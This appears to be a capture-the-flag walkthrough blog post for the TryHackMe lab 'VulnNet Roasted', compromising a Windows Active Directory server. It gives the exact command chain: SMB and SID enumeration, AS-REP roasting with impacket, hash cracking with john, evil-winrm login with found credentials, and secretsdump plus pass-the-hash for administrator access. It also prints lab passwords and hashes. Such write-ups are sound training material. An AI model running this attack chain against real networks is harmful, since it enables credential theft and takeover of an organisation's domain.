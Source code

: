 ```yaml
---
layout: post
title: Walkthrough - VulnNet Roasted
published: true
---
```


Windows Server, Active Directory, Enumeration, Kerberos, Roasting, SMB, evil-winrm. VulnNet Entertainment quickly deployed another management instance on their very broad network...

[https://tryhackme.com/room/vulnnetroasted](https://tryhackme.com/room/vulnnetroasted)

* * *

## Notes

```
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-08-14 20:07:55Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: vulnnet-rst.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: vulnnet-rst.local0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp open  mc-nmf        .NET Message Framing
```

- `smbclient -L 10.10.65.165` we are allowed to see shars anonymously.

```
Password for [WORKGROUP\0xskar]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
        VulnNet-Business-Anonymous Disk      VulnNet Business Sharing
        VulnNet-Enterprise-Anonymous Disk      VulnNet Enterprise Sharing
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.65.165 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

Lets check out what is in the Anonymous shares, and download them.

- `smbclient \\\\10.10.65.165\\VulnNet-Business-Anonymous\\ -N -c 'prompt OFF; recurse ON;mget *'`
- `smbclient \\\\10.10.65.165\\VulnNet-Enterprise-Anonymous\\ -N -c 'prompt OFF; recurse ON;mget *'`

Lots of names in these files, lets try making a list and gathering credentials.

```
alexa
whitehat
jack
goldenhand
tony 
skid
johnny 
leet
```

- check which shares are readable or writable `smbmap -u anonymous -H 10.10.181.27`
- since we have access to `IPC$` anonymously, we can use impacket lookupsid to list domain users `python3 /usr/share/doc/python3-impacket/examples/lookupsid.py anonymous@10.10.181.27 | tee users.txt` and save them to another file so we can extract the users

```
[*] Brute forcing SIDs at 10.10.181.27
[*] StringBinding ncacn_np:10.10.181.27[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-1589833671-435344116-4136949213
498: VULNNET-RST\Enterprise Read-only Domain Controllers (SidTypeGroup)
500: VULNNET-RST\Administrator (SidTypeUser)
501: VULNNET-RST\Guest (SidTypeUser)
502: VULNNET-RST\krbtgt (SidTypeUser)
512: VULNNET-RST\Domain Admins (SidTypeGroup)
513: VULNNET-RST\Domain Users (SidTypeGroup)
514: VULNNET-RST\Domain Guests (SidTypeGroup)
515: VULNNET-RST\Domain Computers (SidTypeGroup)
516: VULNNET-RST\Domain Controllers (SidTypeGroup)
517: VULNNET-RST\Cert Publishers (SidTypeAlias)
518: VULNNET-RST\Schema Admins (SidTypeGroup)
519: VULNNET-RST\Enterprise Admins (SidTypeGroup)
520: VULNNET-RST\Group Policy Creator Owners (SidTypeGroup)
521: VULNNET-RST\Read-only Domain Controllers (SidTypeGroup)
522: VULNNET-RST\Cloneable Domain Controllers (SidTypeGroup)
525: VULNNET-RST\Protected Users (SidTypeGroup)
526: VULNNET-RST\Key Admins (SidTypeGroup)
527: VULNNET-RST\Enterprise Key Admins (SidTypeGroup)
553: VULNNET-RST\RAS and IAS Servers (SidTypeAlias)
571: VULNNET-RST\Allowed RODC Password Replication Group (SidTypeAlias)
572: VULNNET-RST\Denied RODC Password Replication Group (SidTypeAlias)
1000: VULNNET-RST\WIN-2BO8M1OE1M1$ (SidTypeUser)
1101: VULNNET-RST\DnsAdmins (SidTypeAlias)
1102: VULNNET-RST\DnsUpdateProxy (SidTypeGroup)
1104: VULNNET-RST\enterprise-core-vn (SidTypeUser)
1105: VULNNET-RST\a-whitehat (SidTypeUser)
1109: VULNNET-RST\t-skid (SidTypeUser)
1110: VULNNET-RST\j-goldenhand (SidTypeUser)
1111: VULNNET-RST\j-leet (SidTypeUser)
```

- extract the users so we can use the userfile with GetNPUsers.py to find users without Kerberos pre-authentication.
- `grep SidTypeUser users.txt | awk '{print $2}' | cut -d "\\" -f2 > users-cut.txt` 

```
┌──(0xskar㉿cocokali)-[~/Documents/TryHackMe/VulnNet-Roasted]
└─$ python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py \                                     
> -dc-ip 10.10.220.192 \
> -usersfile users-cut.txt \
> -no-pass \
> vulnnet-rst.local/
Impacket v0.10.1.dev1+20220606.123812.ac35841f - Copyright 2022 SecureAuth Corporation

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Guest doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User WIN-2BO8M1OE1M1$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User enterprise-core-vn doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User a-whitehat doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$t-skid@VULNNET-RST.LOCAL:bd77ca3bbc7b36c490b15c39c24b304b$30c3c9569c4c75a02e00092806aaf8dd28075a64be0d5fe1cd91729db5ccaf7c53b2a6d27666f3a182b1cb143515d79eb2623d3de05306300efaabaed91cde2cca74ac40ddf335994becac4b915538a2f49cff101261958141f7c2f0dd24828413183d44d8d25b1d3ec77c417ef1e4f577b31a2e0d751def5db906885e16291c49f076660a666b0a8e1a3152dbf50cb58141b7b3f9244fe34bf1d16115555edca83894e65c1bd55ea250f5eb2685c72e1152b5a2390379f56fa78596315328cf64931caba3e73e91703684063987f6574e2f80b7711fc36271dd4805ef9d3b6e37e1ab80140b87ef647d8977adf1accac2859b9989e6
[-] User j-goldenhand doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User j-leet doesn't have UF_DONT_REQUIRE_PREAUTH set
```

- crack users hash `john t-skid_hash.txt --wordlist=/usr/share/wordlists/rockyou.txt`
- `tj072889*        ($krb5asrep$23$t-skid@VULNNET-RST.LOCAL)`
- `t-skid:tj072889*`

Using these credentials we are not able to access the NETLOGON share on Samba

Within the VBS script file on the share we fine more credientials we can use to access the system

```
strUserNTName = "a-whitehat"
strPassword = "bNdKVkjv3RR9ht"
```

- `evil-winrm -i 10.10.220.192 -u a-whitehat -p "bNdKVkjv3RR9ht"`

* * * 

## What is the content of user.txt?

```
Directory: C:\users\enterprise-core-vn\desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        3/13/2021   3:43 PM             39 user.txt
```

* * * 

## What is the content of root.txt?

We can use impackets secretsdump.py to dump hashes

- `python3 /usr/share/doc/python3-impacket/examples/secretsdump.py vulnnet-rst.local/a-whitehat:bNdKVkjv3RR9ht@10.10.220.192`

With the administrator's hash we can connect and get the system flag.

- `evil-winrm -i 10.10.220.192 -u administrator -H "c2597747aa5e43022a3a3049a3c3b09d"`

![](/assets/vulnnet-roasted01.png)

* * * 

